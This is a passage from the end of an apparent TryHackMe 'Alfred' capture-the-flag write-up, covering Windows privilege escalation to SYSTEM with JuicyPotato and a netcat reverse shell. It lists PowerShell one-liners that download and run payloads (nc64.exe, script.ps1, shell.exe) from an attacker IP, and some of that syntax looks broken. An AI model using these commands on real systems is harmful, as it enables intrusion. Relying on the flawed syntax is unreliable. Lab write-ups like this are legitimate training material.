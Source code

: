 We can use the following command to download the nc64.exe file from the Python web server.

`powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.6.5.103/nc64.exe', 'C:\Users\public\nc64.exe')" -bypass               executionpolicy`

Once the JuicyPotato.exe file is present, establish a second netcat listener and execute the JuicyPotato binary specifying the COM listening port, program to execute (netcat connection to our listener with the `-e` flag), and createprocess arguments.

In the image below, you can see the command execution of the JuicyPotato exploit on the left, and the connection from the target to our netcat listener as SYSTEM. We have obtained root!

![system privesc](/assets/img/posts/thm-alfred/system-privesc.jpg)

We can search for the root.txt flag,

![root flag](/assets/img/posts/thm-alfred/root-flag.jpg)

and consider this room completed.

## Useful Commands

### Powershell Download File

If we want to download a PS1 script and execute in memory

`powershell "IEX((New-Object Net.WebClient).downloadFile('http://10.6.5.103/script.ps1'))"`

With this method, ensure the script has the expression(s) to invoke a function or method.


Alternatively, if you want to download an executable file and execute it

`powershell "IEX((New-Object Net.WebClient).downloadFile('http://10.6.5.103/shell.exe'))"`

`Start-Process shell.exe`

## Reflection

This is the first Windows room I have encountered in this journey to redo these Try Hack Me rooms including a writeup. Dealing with a Windows room including privilege escalation seems very foreign to me. The most privesc I can complete for Windows involves `getsystem` on Metasploit but one of the big accomplishments I felt this time around was completing this room with no hints AND without using Metasploit.

Along with being foreign to Windows targets and privilege escalation, the JuicyPotato exploit completely went over my head. At some point in this journey, I'll perform significantly more research into Windows privilege escalation and these Impersonation tokens.
